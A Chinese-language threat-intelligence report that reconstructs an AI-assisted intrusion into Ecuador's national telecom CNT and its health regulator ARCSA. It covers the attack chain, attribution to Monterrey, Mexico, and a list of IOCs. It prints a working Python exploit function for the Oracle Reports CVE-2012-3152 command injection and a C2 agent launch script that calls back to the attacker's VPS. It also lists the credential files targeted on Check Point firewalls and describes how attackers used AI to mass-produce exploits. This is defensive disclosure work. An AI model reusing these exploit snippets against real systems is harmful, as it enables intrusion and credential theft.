



# 当 AI 让老旧漏洞重新致命：厄瓜多尔国家机构被渗透的全链还原


## ▌概述

基于 FOFA 的引擎 Ferret 曾与 GLM 模型联合溯源过一名南非攻击者，但这仅是 Ferret 长期监测工作的众多成果之一。在持续的测绘溯源运营过程中，Ferret 近期再次捕获到新的攻击动向：一名攻击者用 `python3 -m http.server` 在 VPS 上开了个临时文件服务器，忘记关闭，201 个文件——目标清单、利用脚本、凭证哈希、C2 配置——全部暴露在公网上。Ferret 由此还原了从侦察到 C2 部署的完整攻击链。

攻击者代号 mois（取自其脚本中硬编码的注册邮箱 `mois****@gmail.com`）。对厄瓜多尔国家电信 CNT 的攻击，从公网边界切入，经漏洞武器化和凭证收割，获取了边界防火墙、认证计费服务器和反欺诈系统三组凭证哈希，并部署自研 C2 框架；对厄瓜多尔国家卫生监管机构 ARCSA 的攻击通过 Oracle Reports 服务器漏洞获得命令执行权限，展开内网侦察。攻击者的 Cloudflare 账户下注册了 53 个域名，命名覆盖 Oracle、Zabbix、CRL 证书验证等企业基础设施，其中 `net-telemetry-lab[.]com` 已确认用于 DNS 武器化投递。账户审计日志进一步显示，全部 5 个操作者登录 IP 均归属墨西哥本地住宅/移动网络，其中 4 个位于蒙特雷都会区的家庭宽带——推测攻击者常驻墨西哥蒙特雷地区。

**值得注意的是，攻击者没有 0day。他们用的全是公开多年的漏洞——CVE-2012-3152（Oracle Reports）、CVE-2017-14491（dnsmasq）、CVE-2018-14847（MikroTik）、CVE-2024-24919（Check Point）。但在 AI 辅助下，这些老旧 CVE 重新变成了致命武器，两个国家级机构被打穿。AI 的作用不只是压低漏洞利用的学习成本、试错成本和产能成本，更关键的是扭转了覆盖面的不对称：AI 可以对每一个资产、每一个漏洞逐一分析、不知疲倦地穷举，而防守方的修复和测试资源始终有限——补丁按优先级打完，总会有资产上的老旧漏洞被遗漏。**&#x6B64;案例中，攻击者正是这种穷举式打法的受益者：把漏洞库里几十万个过期 CVE 变成弹药，组装成完整攻击链——入口、持久化、侦察、凭证收割、C2 部署，环环相扣。

## ▌厄瓜多尔国家电信 CNT 被攻击线

以下按攻击者渗透顺序展开：

| 阶段            | 攻击动作                                   | 影响                                   |
| ------------- | -------------------------------------- | ------------------------------------ |
| 公网边界探测        | Check Point 路径穿越、子域名枚举、全端口扫描           | 边界防火墙凭证存储点被尝试读取，40 余个子域名被枚举          |
| dnsmasq 溢出武器化 | CVE-2017-14491 exp + Cloudflare DNS 委派 | 向 CNT 移动网关投递溢出 payload               |
| 三组凭证到手        | Check Point + RADIUS + Subex 哈希破解      | 边界防火墙、全国认证计费服务器、内网反欺诈 BSS 的凭证哈希全部到手  |
| 自研 C2 Agent   | 自研 Go 框架、development 模式                | 自研远控框架就绪，Agent ID 直接命名为 agent-cnt-01 |

### 公网边界探测

攻击者对 CNT 公网边界做了系统性探测，首先对 Check Point 防火墙 `200.107.*.*`（厄瓜多尔）尝试 CVE-2024-24919 路径穿越，读取清单覆盖 `/etc/shadow`、`/.cpwd.db`、`masters`、`cp-users-pw.txt`、注册表蜂巢——这是 Check Point 上全部关键凭证存储点的完整清单。同一手法扩展到另外 6 台 Check Point，同时对 MikroTik Winbox 做 CVE-2018-14847 验证。



与此同时，攻击者解析了 40 余个 CNT 子域名（mail、vpn、intranet、billing、oss、bss、nms 等），通过 crt.sh 枚举证书透明度子域，对 `200.107.*.0/24` 做全端口扫描，搜索企业邮件服务器端点。这是对一个已知网络体系的系统性测绘——攻击者清楚 CNT 用 Check Point 做边界、有 VoIP 话务系统、有接入网 CPE 设备。

VoIP 话务系统（Issabel 九步利用流程）和接入网 CPE 设备（华为 HG532e、MikroTik、ZTE、GoAhead）方向也有尝试，但脚本中没有明确的成功回显，目前仍处于"尝试中"阶段，后文不再展开。

### 针对 CNT 移动网关的 dnsmasq 溢出武器化

多个脚本显示攻击者已在 CNT 内网中持有据点 `10[.]161[.]71[.]168`，但工作区中未保留该据点的获取过程。从据点上发现 CNT 移动网关 `10[.]161[.]71[.]81` 运行着 dnsmasq-2.51，这是一个老旧的 DNS 转发服务，存在已知漏洞 CVE-2017-14491——当处理超长的 CNAME 记录链时会发生堆溢出。

为了让 CNT 网关主动来查询攻击者的服务器，攻击者在 Cloudflare 上注册配置了 `net-telemetry-lab[.]com` 域名（脚本中含 API Key 和注册邮箱 `mois****@gmail.com`），将 `d.net-telemetry-lab[.]com` 的 DNS 查询指向自己 VPS `165[.]22[.]46[.]51`（美国）。当 CNT 网关的 dnsmasq 查询该子域时，请求即发到攻击者，返回构造好的超长 CNAME 链响应，触发堆溢出。

### 三组凭证到手

破解脚本中硬编码了三组从 CNT 系统提取的密码哈希，配合含 `cnt123`、`cnt2024`、`cnt2025`、`cnt2026`、`checkpoint`、`Check@123` 等针对 CNT 量身构造的密码字典，用 john 做爆破：

| 凭证组                               | 来源系统                        | 在电信体系中的位置        | 哈希格式     | 账号数 |
| --------------------------------- | --------------------------- | ---------------- | -------- | --- |
| Check Point admin                 | 边界防火墙（200.107.*.* 厄瓜多尔）     | 公网出入口管控          | md5crypt | 2   |
| RADIUS01 root/billing 等           | 认证计费服务器（200.107.*.* 厄瓜多尔）   | 全国宽带/拨号用户认证计费中枢  | md5crypt | 4   |
| Subex tladmin/subex/oracle/nikira | 内网反欺诈/收入保障库（172.17.222.126） | 运营商 BSS 核心，公网不可达 | DES      | 4   |

三组凭证对应电信体系的三层核心系统：边界管控、认证计费、内网 BSS。哈希是硬编码在脚本中的，不是实时获取的，说明攻击者在更早阶段已经拿到。



### 自研 C2 框架

攻击者部署了一个自研 C2 远控框架，内部代号 RSA，环境变量以 `RSA_` 为前缀。启动脚本如下：

```bash
export RSA_SERVER_URL=http://165[.]22[.]46[.]51:8443
export RSA_AGENT_ID=agent-cnt-01
export RSA_TOKEN=********************
export RSA_DEPLOYMENT_MODE=development
nohup /tmp/svc_health > /tmp/agent.out 2>&1 &
```

C2 标识 `agent-cnt-01` 直接指向 CNT。进程伪装为 `svc_health`（系统健康检查），回连 `http://165[.]22[.]46[.]51:8443`（美国）。通信 token 是 26 个字母顺序排列后接 `123456`，是 AI 生成配置时常见的占位式弱口令。

`svc_health` 是 Go 编译的可执行文件，其中 Go 模块命名为 `hdbcompileserver`（SAP HANA 编译服务器组件名）。但二进制内部的包路径和函数名——`command_journal`（命令日志）、`config_file`（配置文件）、`credentials`（凭证管理）、`dns_transport`（DNS 传输）——全是 C2 功能，与 SAP HANA 编译服务器毫无关系。命名与内容严重不符，加上刻意模仿 SAP 的版本串和路径后缀，伪装意图几乎可以确定：让逆向分析人员看到二进制时误以为是 SAP 软件组件，不会怀疑是恶意程序。从 strings 提取的函数名和环境变量，可还原框架能力为：

| 能力        | 证据                                                        | 说明                       |
| --------- | --------------------------------------------------------- | ------------------------ |
| HTTP 传输   | `RSA_WS_URL`、`/dc/`、`/wt/`、`/dt/`、`/dl/`                  | 命令分发、轮询、数据传输、下载          |
| DNS 隧道    | `RSA_DNS_SERVER`、`dnsRPCClient`、`dnsPacketExchange`       | DNS 作为备用传输通道             |
| SOCKS5 代理 | `golang.org/x/net/proxy.SOCKS5`                           | 内置代理跳板                   |
| 文件上传      | `RSA_UPLOAD_DIR`、`RSA_UPLOAD_MAX_BYTES`                   | 从目标回传文件                  |
| 命令日志      | `RSA_COMMAND_JOURNAL_MAX_BYTES`、`HDB-JOURNAL-v1`          | 命令执行持久化日志                |
| CI/CD 溯源  | `RSA_CI_EVIDENCE_PUBLIC_KEY`、`runtimeEvidenceAttestation` | 构建溯源，Ed25519 公钥验证        |
| 生产硬化      | `RSA_RUN_IDENTITY_MODE=dedicated-service`                 | 生产模式要求 systemd cgroup 隔离 |

Agent 的完整生命周期：投递到目标 → 以 `svc_health` 进程启动 → 回连 8443 → 接收更新载荷 → 通过 `/tmp/.uploads` 上传回传数据。

## ▌厄瓜多尔国家卫生监管机构 ARCSA 被攻击线

以下按攻击者渗透顺序展开：

| 阶段                 | 攻击动作                          | 影响                                   |
| ------------------ | ----------------------------- | ------------------------------------ |
| Oracle Reports RCE | errfile 参数注入 → CGI 执行 → 持久化保活 | 卫生监管机构服务器被攻陷，获得 Windows 命令执行权限       |
| 内网侦察               | 信息收集                          | 确认 AD 域名 arcsa.gob.ec，收集网络连接、共享、凭证文件 |

### Oracle Reports RCE（CVE-2012-3152）

目标服务器 Oracle Reports Server（Oracle 企业级报表解决方案的核心组件，主要职责是处理、调度和分发报表请求）名为 `rep_arcsa-oas_FRHome1`。攻击者利用 CVE-2012-3152 —— Oracle Reports errfile 参数注入漏洞，通过 `rwservlet` 的 `errfile` 参数将一个 `.bat` 批处理文件写入 `C:\oracle\FRHome_1\Apache\Apache\cgi-bin\` 目录，`report` 参数被构造为 `x||echo Content-Type: text/plain&echo.&{cmd}&REM ||.rdf`，使得错误输出文件变成一个可执行的 CGI 脚本。写入后通过 `/cgi-bin/{batname}` 访问即可执行 Windows 命令并获取回显。核心函数如下：

```python
def run_cmd(cmd, batname):
    report_name = f"x||echo Content-Type: text/plain&echo.&{cmd}&REM ||.rdf"
    params = {
        'server': SERVER,
        'report': report_name,
        'destype': 'cache',
        'desformat': 'html',
        'errfile': f'{CGIDIR}\\{batname}'
    }
    requests.get(f"{ORACLE}/reports/rwservlet", params=params, verify=False, timeout=15)
    time.sleep(1)
    r = requests.get(f"{ORACLE}/cgi-bin/{batname}", verify=False, timeout=30)
    return r.text
```

攻击者随后向 OC4J web 目录（Oracle 的 Java 应用服务器，负责执行 JSP 等动态页面）和 Apache htdocs 目录（Apache HTTP Server 的静态文件目录）写入文件，验证写入的 webshell 能不能通过 Web 访问到、能不能被执行。其中 `svc_diag.jsp` 返回 200，说明 OC4J 成功编译执行了 JSP。持久化保活脚本定期轮询这些文件的 HTTP 状态码，确保持久化通道不失效。

### 三阶段内网侦察

确认命令执行后，攻击者从 ARCSA 服务器展开了三个递进阶段的内网侦察。第一阶段收集基础信息：网络配置、ARP 表、用户列表、进程列表，并读取了 Oracle 的 `tnsnames.ora` 数据库连接配置。第二阶段转向域信息和共享：主机名、DNS 缓存、共享目录、会话连接和计划任务。第三阶段深入网络连接和凭证文件：通过 `nltest` 确认了 ARCSA 的 Active Directory 域名为 `arcsa.gob.ec`，并读取了 `cgicmd.dat`——Oracle Reports 的命令映射文件。

## ▌攻击者归因

从工作区中可以提取多条身份线索：

| 维度            | 线索                                    | 说明                                            |
| ------------- | ------------------------------------- | --------------------------------------------- |
| 邮箱            | `mois****@gmail.com`                  | 硬编码在 Cloudflare 配置脚本 `cf.sh` 中，用于注册 DNS 武器化域名 |
| Cloudflare 账户 | 2026-02-07 创建                         | API Key 仍然有效，账户下注册了 53 个域名                    |
| GitHub        | `mois****`                            | 空壳账号，0 repos 0 followers                      |
| VPS           | `165[.]22[.]46[.]51`（美国）              | 文件服务器、C2 回连、DNS 投递均指向此 IP                     |
| 域名            | `net-telemetry-lab[.]com`（2026-07-23） | DNS 武器化域名                                     |

通过 Cloudflare API Key 调用审计日志接口，提取出全部操作者登录 IP，共 5 个，全部归属墨西哥运营商：

| IP                  | 位置        | 网络类型        | 活跃时间               |
| ------------------- | --------- | ----------- | ------------------ |
| `187.209.122[.]250` | 墨西哥蒙特雷都会区 | Telmex 家庭宽带 | 2026-07-18 ~ 07-23 |
| `200.68.165[.]19`   | 墨西哥城      | Telcel 移动网络 | 2026-07-30 ~ 07-31 |
| `189.159.102[.]190` | 墨西哥蒙特雷都会区 | Telmex 家庭宽带 | 2026-08-05 ~ 08-09 |
| `187.209.122[.]127` | 墨西哥蒙特雷都会区 | Telmex 家庭宽带 | 2026-08-06 ~ 08-20 |
| `189.159.130[.]180` | 墨西哥蒙特雷都会区 | Telmex 家庭宽带 | 2026-09-04         |

五个登录 IP 全部落在墨西哥本地住宅/移动网络（其中四个位于蒙特雷都会区的家庭宽带，且跨越六周的多次会话），操作时段与蒙特雷时区的夜间完全吻合——推测攻击者常驻墨西哥蒙特雷地区的可能性高。

通过 Cloudflare API Key 查询，该账户下共注册了 53 个域名，从 2026-02 持续注册到 2026-08，跨度半年。按命名模式分类：

- Oracle 相关（`orapatchsync[.]com`、`oracleservicesupd[.]com`、`ol8-repo[.]com`、`oraaboraservices[.]com` 等 18 个）— Oracle 是企业级数据库和应用服务器厂商，这些域名命名模仿 Oracle 补丁同步、更新源等服务
- 监控相关（`cdn-zabbix[.]com`、`zabbix-repo-mx[.]com` 等 6 个）— Zabbix 是开源企业监控系统
- 证书吊销（`crldigicert[.]com`、`crl-validation[.]com`）— CRL（Certificate Revocation List，证书吊销列表）是浏览器和操作系统验证 SSL 证书是否被吊销时请求的端点，DigiCert 是全球主要证书颁发机构
- 遥测相关（`net-telemetry-lab[.]com`、`cbio-telemetry[.]com`、`dataflow-metrics[.]com` 等 6 个）— 命名模仿网络遥测和数据指标上报服务

其中 `net-telemetry-lab[.]com` 已确认用于本次 CNT 攻击的 DNS 武器化投递，其余 52 个域名的实际用途未知。



## ▌AI 辅助攻击特征

这批文件的 AI 参与痕迹很明显，可以归纳为五个特征：

- **高频迭代命名**：同一漏洞的 exp 至少经历 8 个版本迭代（v2 → v3 → v4 → v5 → cname → cname_v2 → v3 → final → prod_final），这种迭代密度不像一次性手写，更接近 AI 辅助下的快速试错。
- **冗长配置项**：`RSA_ALLOW_LEGACY_GLOBAL_TOKEN` 之类的环境变量名带有多余的兼容性开关，是 LLM 生成配置时的典型产物——模型倾向于穷举所有可能的开关而非精简。
- **占位式弱口令**：C2 通信 token 是键盘顺子（26 个字母按顺序排列后接 123456），是 LLM 生成配置时常见的占位式特征——模型用一个"看起来像密码"的字符串填充，而非真正设计安全凭证。
- **推理式注释**：脚本中出现 "If dnsmasq crashes, next query will timeout" 这类把预期行为和判断逻辑写进脚本的报告化风格，是人类写 exp 时不常见的写法，更接近 AI 在生成代码时同步输出推理过程。
- **跨产品 checklist 覆盖**：Issabel、Huawei、MikroTik、Ollama、GeoServer、Webmin、Redis、GoAhead 的利用脚本同时出现，覆盖面过宽，更像 AI 根据目标环境信息批量生成的攻击 checklist，而非人工逐个研究。

这与 Ferret 引擎捕获的 Neo 事件是同一趋势的两端。Neo 是南非攻击者把决策权交给了 Agent，最终因 Agent 的自主操作暴露全部工作区；本样本是攻击者把生产力交给了 AI，脚本量产，快速改写，多线并行。攻击者不依赖 0day 也能在更低成本下扩大攻击覆盖面。而作业节奏越快，临时基础设施的创建与丢弃越频繁，"文件服务器忘记关闭"这类低级疏忽出现的概率也越高。

## ▌IOC

| 类型     | IOC                           | 说明                                             |
| ------ | ----------------------------- | ---------------------------------------------- |
| IP     | `165.22.46[.]51`              | 攻击者 VPS（9999 / 8443 / 53）                      |
| IP     | `10.161.71[.]168`             | 攻击者 CNT 内网据点                                   |
| IP     | `187.209.122[.]250`           | 操作者登录 IP（墨西哥 Monterrey，Telmex 宽带）              |
| IP     | `187.209.122[.]127`           | 操作者登录 IP（墨西哥 Monterrey，Telmex 宽带）              |
| IP     | `189.159.102[.]190`           | 操作者登录 IP（墨西哥 Santa Catarina，Telmex 宽带）         |
| IP     | `189.159.130[.]180`           | 操作者登录 IP（墨西哥 San Pedro Garza García，Telmex 宽带） |
| IP     | `200.68.165[.]19`             | 操作者登录 IP（墨西哥城，Telcel 移动网络）                     |
| Domain | `net-telemetry-lab[.]com`     | DNS 武器化域名（Cloudflare 委派）                       |
| Domain | `d.net-telemetry-lab[.]com`   | DNS 攻击子域（NS 委派目标）                              |
| Domain | `apigobservices[.]com`        | Cloudflare 账户下域名                               |
| Domain | `cbio-telemetry[.]com`        | Cloudflare 账户下域名                               |
| Domain | `cdn-zabbix[.]com`            | Cloudflare 账户下域名                               |
| Domain | `cloudsync-metrics[.]com`     | Cloudflare 账户下域名                               |
| Domain | `crldigicert[.]com`           | Cloudflare 账户下域名                               |
| Domain | `crl-validation[.]com`        | Cloudflare 账户下域名                               |
| Domain | `dataflow-metrics[.]com`      | Cloudflare 账户下域名                               |
| Domain | `dbm-tel[.]com`               | Cloudflare 账户下域名                               |
| Domain | `eventlogr[.]com`             | Cloudflare 账户下域名                               |
| Domain | `evonetr5-api[.]com`          | Cloudflare 账户下域名                               |
| Domain | `grdaboraservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `hwcloudces[.]com`            | Cloudflare 账户下域名                               |
| Domain | `ldmaboraservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `ldom-diag-api[.]com`         | Cloudflare 账户下域名                               |
| Domain | `medoxaintelligenceapi[.]com` | Cloudflare 账户下域名                               |
| Domain | `medoxaintelligence[.]com`    | Cloudflare 账户下域名                               |
| Domain | `ncc-update[.]com`            | Cloudflare 账户下域名                               |
| Domain | `nmscloudservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `nsraboraservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `nsr-cloudrelay[.]com`        | Cloudflare 账户下域名                               |
| Domain | `ntnxeraupd[.]com`            | Cloudflare 账户下域名                               |
| Domain | `ntnxeraupds[.]com`           | Cloudflare 账户下域名                               |
| Domain | `nutanixsync[.]com`           | Cloudflare 账户下域名                               |
| Domain | `oem-telemetrics[.]com`       | Cloudflare 账户下域名                               |
| Domain | `ol8-repo[.]com`              | Cloudflare 账户下域名                               |
| Domain | `olrepo-cdn[.]com`            | Cloudflare 账户下域名                               |
| Domain | `openbaoservices[.]com`       | Cloudflare 账户下域名                               |
| Domain | `oraaboraservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `oracleservicesupd[.]com`     | Cloudflare 账户下域名                               |
| Domain | `ora-patchrelay[.]com`        | Cloudflare 账户下域名                               |
| Domain | `orapatchsvc[.]com`           | Cloudflare 账户下域名                               |
| Domain | `orapatchsync[.]com`          | Cloudflare 账户下域名                               |
| Domain | `orapatchsyncs[.]com`         | Cloudflare 账户下域名                               |
| Domain | `packagist-mirror[.]com`      | Cloudflare 账户下域名                               |
| Domain | `ppaboraservices[.]com`       | Cloudflare 账户下域名                               |
| Domain | `radius-sync[.]com`           | Cloudflare 账户下域名                               |
| Domain | `rhsatcfg[.]com`              | Cloudflare 账户下域名                               |
| Domain | `rhscl-telemetry[.]com`       | Cloudflare 账户下域名                               |
| Domain | `sap-lcm[.]com`               | Cloudflare 账户下域名                               |
| Domain | `sitaboraservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `smt-update[.]com`            | Cloudflare 账户下域名                               |
| Domain | `sqlaboraservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `statsrelay[.]com`            | Cloudflare 账户下域名                               |
| Domain | `sunaboraservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `sun-svcgateway[.]com`        | Cloudflare 账户下域名                               |
| Domain | `syncrell[.]com`              | Cloudflare 账户下域名                               |
| Domain | `tim-updates[.]com`           | Cloudflare 账户下域名                               |
| Domain | `vntaboraservices[.]com`      | Cloudflare 账户下域名                               |
| Domain | `waboraservices[.]com`        | Cloudflare 账户下域名                               |
| Domain | `winlogservice[.]com`         | Cloudflare 账户下域名                               |
| Domain | `winupd64[.]com`              | Cloudflare 账户下域名                               |
| Domain | `zabbix-repo-mx[.]com`        | Cloudflare 账户下域名                               |

## ▌总结

本次还原了一条完整的攻击链：攻击者利用公开多年的 N-day 漏洞，在 AI 辅助下批量生成利用脚本，先后渗透了厄瓜多尔两个国家级机构。而一个忘关的临时文件服务器，让这一切被完整记录下来，成为一份现成的威胁情报。

在 Ferret 的长期监测中，本案并非孤例：**被捕获的攻击者中，绝大多数使用的都是 N-day 漏洞，而非 0day。**&#x539F;因很直接——互联网上长期未修补的老旧资产数量庞大，N-day 的命中率更高、成本更低。AI 的普及正在进一步放大这一趋势：当利用脚本的生成和试错成本趋近于零，漏洞库里的几十万个过期 CVE 就都成了现成的弹药。对防御者而言，与其把资源集中在追逐最新的 0day 情报上，不如优先解决一个更基础的问题——那些存在多年、补丁早已发布、却始终没打上的 N-day，才是真正被打穿的缺口。
